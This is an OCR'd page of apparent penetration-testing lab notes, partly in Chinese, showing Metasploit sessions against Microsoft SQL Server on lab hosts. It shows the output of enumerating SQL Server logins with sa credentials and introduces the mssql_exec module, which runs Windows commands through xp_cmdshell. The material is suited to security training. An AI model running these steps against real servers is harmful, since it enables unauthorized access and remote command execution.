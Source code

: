 ```
[+] 10.0.18.92:1433 - Connected.
[*] 10.0.18.92:1433 - Checking if sa has the sysadmin role...
[+] 10.0.18.92:1433 - sa is a sysadmin.
[*] 10.0.18.92:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.0.18.92:1433 - Enumerating logins...
[+] 10.0.18.92:1433 - 38 initial SQL Server logins were found.
[*] 10.0.18.92:1433 - Verifying the SQL Server logins...
[+] 10.0.18.92:1433 - 16 SQL Server logins were verified:
[*] 10.0.18.92:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.0.18.92:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.0.18.92:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.0.18.92:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.0.18.92:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.0.18.92:1433 -  - BUILTIN\Users
[*] 10.0.18.92:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.0.18.92:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.0.18.92:1433 -  - NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.0.18.92:1433 -  - NT SERVICE\SQLWriter
[*] 10.0.18.92:1433 -  - NT SERVICE\Winmgmt
[*] 10.0.18.92:1433 -  - NT Service\MSSQL$SQLEXPRESS
[*] 10.0.18.92:1433 -  - admin
[*] 10.0.18.92:1433 -  - auditor
[*] 10.0.18.92:1433 -  - dbadmin
[*] 10.0.18.92:1433 -  - sa
[*] Auxiliary module execution completed
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > 
```

Execute a command on the target machine

[Microsoft SQL Server Command Execution](https://www.rapid7.com/db/modules/auxiliary/admin/mssql/mssql_exec/)

Microsoft SQL Server 命令执行

该模块将通过 xp_cmdshell（默认）或 sp_oacreate 过程（更安全、无输出、无临时数据表）在 MSSQL/MSDE 实例上执行 Windows 命令。使用此模块需要有效的用户名和密码。

```
Target IP Address : 10.0.19.29
```

```
root@attackdefense:~# msfconsole -q
msf6 > use auxiliary/admin/mssql/mssql_exec
msf6 auxiliary(admin/mssql/mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                       Required  Description
   ----                 ---------------                       --------  -----------
   CMD                  cmd.exe /c echo OWNED > C:\owned.exe  no        Command to execute
   PASSWORD                                                   no        The password for the specified username
   RHOSTS                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433                                  yes       The target port (TCP)
   TDSENCRYPTION        false                                 yes       Use TLS/SSL for TDS data "Force Encryption"
   TECHNIQUE            xp_cmdshell                           yes       Technique to use for command execution (Accepted: xp_cmdshell, sp_oacreate)
   USERNAME             sa                                    no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                 yes       Use windows authentification (requires DOMAIN option set)

```